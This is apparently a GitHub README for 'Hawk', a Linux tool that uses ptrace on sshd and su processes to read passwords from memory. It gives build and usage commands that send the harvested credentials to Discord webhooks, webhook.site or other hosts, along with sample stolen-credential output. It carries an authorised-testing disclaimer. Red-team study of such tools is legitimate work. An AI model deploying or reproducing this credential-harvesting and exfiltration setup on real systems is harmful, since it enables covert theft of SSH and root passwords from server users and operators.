

<h1 align="center">
<br>

<br>
Hawk
</h1>

<p align="center">
  <b>Silently intercept SSH and SU credentials in real-time</b>
</p>

<p align="center">
  Hawk monitors <code>sshd</code> and <code>su</code> processes, extracting passwords from memory via ptrace without modifying target processes. Zero writes. Pure read-only credential harvesting.
</p>

## Demo



## How It Works

Hawk leverages Linux's `/proc` filesystem to discover SSH and SU processes, then uses `ptrace` to attach and intercept syscalls. When password authentication occurs, it reads the password directly from process memory during the `write()` syscall—completely transparent to the target process. Credentials are exfiltrated via webhook or printed to stdout.

**Deep dive:** [Blog Post](https://www.prodefense.io/blog/hawks-prey-snatching-ssh-credentials)

## Build

```bash
GOOS=linux GOARCH=amd64 CGO_ENABLED=0 go build -o hawk
```

## Usage

### Discord Webhook

Hawk automatically detects Discord webhooks and sends formatted messages:

```bash
./hawk https://discord.com/api/webhooks/YOUR_WEBHOOK_ID/YOUR_WEBHOOK_TOKEN
```

**Setup:** Create a webhook in your Discord server following [Discord's webhook guide](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks). Credentials will appear in your channel formatted with hostname, username, and password.

### Generic Webhooks

For other webhook services (webhook.site, custom servers, etc.):

```bash
# HTTPS (auto-detected)
./hawk https://webhook.site/your-unique-id

# HTTP
./hawk http://192.168.1.100:6969/webhook

# Auto HTTPS if no protocol specified
./hawk webhook.example.com/path
```

### Stdout Mode

No webhook? Credentials print to stdout:

```bash
./hawk
```

Output:
```
hostname=server01 username=root password=SuperSecret123
```

## Requirements

- Linux system with ptrace enabled
- `/proc` filesystem mounted
- Root privileges (required for ptrace)

## Disclaimer

**This tool is for authorized security testing and educational purposes only.** Unauthorized access to computer systems is illegal. Use responsibly and only on systems you own or have explicit permission to test.

## Credits

Inspired by [blendin](https://github.com/blendin)'s work on [3snake](https://github.com/blendin/3snake).
